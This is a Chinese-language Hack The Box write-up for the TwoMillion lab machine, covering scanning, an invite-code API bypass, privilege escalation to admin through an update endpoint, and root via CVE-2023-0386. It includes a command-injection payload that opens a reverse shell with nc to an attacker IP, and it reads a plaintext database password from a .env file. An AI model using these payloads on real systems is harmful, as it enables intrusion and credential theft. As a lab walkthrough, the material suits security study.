# 服务
```
┌──(root㉿kali)-[~/htb]
└─# nmap -sV -Pn -A -O  10.10.11.221
Starting Nmap 7.93 ( https://nmap.org ) at 2024-08-13 22:36 EDT
Nmap scan report for 10.10.11.221
Host is up (0.45s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=8/13%OT=22%CT=1%CU=39947%PV=Y%DS=2%DC=T%G=Y%TM=66BC188
OS:2%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=108%TI=Z%CI=Z%II=I%TS=A)SEQ
OS:(SP=101%GCD=1%ISR=108%TI=Z%CI=Z%TS=A)OPS(O1=M53AST11NW7%O2=M53AST11NW7%O
OS:3=M53ANNT11NW7%O4=M53AST11NW7%O5=M53AST11NW7%O6=M53AST11)WIN(W1=FE88%W2=
OS:FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M53ANNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 995/tcp)
HOP RTT       ADDRESS
1   300.88 ms 10.10.16.1
2   538.94 ms 10.10.11.221

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.94 seconds

```

加域名
```
echo "10.10.11.221 2million.htb" >> /etc/hosts
```

dir brute
```
┌──(root㉿kali)-[~/htb]
└─# python3 /root/dirsearch/dirsearch.py -u http://2million.htb

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11730

Output: /root/htb/reports/http_2million.htb/__24-08-13_23-01-36.txt

Target: http://2million.htb/

[23:01:36] Starting: 
[23:01:42] 301 -  162B  - /js  ->  http://2million.htb/js/                  
[23:02:25] 200 -    2KB - /404                                              
[23:03:23] 401 -    0B  - /api                                              
[23:03:24] 401 -    0B  - /api/v1                                           
[23:03:29] 301 -  162B  - /assets  ->  http://2million.htb/assets/          
[23:03:29] 403 -  548B  - /assets/                                          
[23:03:59] 403 -  548B  - /controllers/                                     
[23:04:02] 301 -  162B  - /css  ->  http://2million.htb/css/                
[23:04:28] 301 -  162B  - /fonts  ->  http://2million.htb/fonts/            
[23:04:38] 302 -    0B  - /home  ->  /                                      
[23:04:42] 301 -  162B  - /images  ->  http://2million.htb/images/          
[23:04:42] 403 -  548B  - /images/                                          
[23:04:52] 403 -  548B  - /js/                                              
[23:05:03] 200 -    4KB - /login                                            
[23:05:04] 302 -    0B  - /logout  ->  /                                    
[23:05:57] 200 -    4KB - /register                                         
[23:06:52] 301 -  162B  - /views  ->  http://2million.htb/views/  
```

根据页面提示去到一个invite页面，查看源代码审查inviteapi.min.js

交给GPT，得知有两个接口

校验码接口：http://2million.htb/api/v1/invite/verify

生成密码接口：http://2million.htb/api/v1/invite/generate

生成一个邀请码：




这个MzhZQ1QtSFJEUU8tSFhVQzMtNFRVSzk=要base64解密为：38YCT-HRDQO-HXUC3-4TUK9

然后在invite页面输入，跳转到注册页面：



注册完后登录到后台




如果直接访问/api/v1会返回404，但是放到burpsuite里则会返回所有接口地址



```
{
	"v1": {
		"user": {
			"GET": {
				"\/api\/v1": "Route List",
				"\/api\/v1\/invite\/how\/to\/generate": "Instructions on invite code generation",
				"\/api\/v1\/invite\/generate": "Generate invite code",
				"\/api\/v1\/invite\/verify": "Verify invite code",
				"\/api\/v1\/user\/auth": "Check if user is authenticated",
				"\/api\/v1\/user\/vpn\/generate": "Generate a new VPN configuration",
				"\/api\/v1\/user\/vpn\/regenerate": "Regenerate VPN configuration",
				"\/api\/v1\/user\/vpn\/download": "Download OVPN file"
			},
			"POST": {
				"\/api\/v1\/user\/register": "Register a new user",
				"\/api\/v1\/user\/login": "Login with existing user"
			}
		},
		"admin": {
			"GET": {
				"\/api\/v1\/admin\/auth": "Check if user is admin"
			},
			"POST": {
				"\/api\/v1\/admin\/vpn\/generate": "Generate VPN for specific user"
			},
			"PUT": {
				"\/api\/v1\/admin\/settings\/update": "Update user settings"
			}
		}
	}
}
```


使用/api/v1/user/auth 接口，查询到当前用户信息



```
{"loggedin":true,"username":"max","is_admin":0}
```

测试/api/v1/admin/settings/update，提示缺少emial参数



加上email参数后，提示缺失参数is_admin



加上is_admin以后，返回成功：




测试/api/v1/admin/vpn/generate，提示缺少参数username



这里的参数存在命令注入：





以下payload拿到foodhold
```
{"username":"max;rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.3 443 >/tmp/f"}
```
rev
```
└─# nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.221] 34386
/bin/sh: 0: can't access tty; job control turned off
$ ls

```

环境变量有密码
```
$ cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
$ 

```

提权
```
$ su admin
Password: SuperDuperPass123
id
uid=1000(admin) gid=1000(admin) groups=1000(admin)

```


# 提权

查看admin邮件

```
admin@2million:~$ cat /var/mail/admin
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather

```

使用[CVE-2023-0386](https://github.com/Fanxiaoyao66/CVE-2023-0386)
```
admin@2million:/tmp$ /bin/bash exp.sh
[+] Create dir
[+] Compile fuse.c
[+] Create fuse file system
[+] Create overlayFS
[+] Copy Up
[+] You are root!
# id
uid=0(root) gid=0(root) groups=0(root),1000(admin)
# 

```